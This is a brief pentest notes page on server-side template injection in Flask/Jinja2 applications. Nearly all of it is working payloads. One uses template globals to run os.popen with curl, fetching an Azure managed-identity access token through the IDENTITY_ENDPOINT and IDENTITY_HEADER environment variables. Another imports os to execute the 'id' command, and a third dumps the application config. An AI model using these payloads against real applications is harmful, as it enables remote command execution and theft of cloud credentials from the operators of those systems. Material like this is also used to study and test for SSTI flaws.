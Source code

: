 # Server side Template injection

### # Workflow

* Template must be determined using the following workflow

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* A good payload can also be used, such as&#x20;

```powershell
{{config.items()}}
```

### Example

#### Flask application

* payloads examples

```
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
```

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
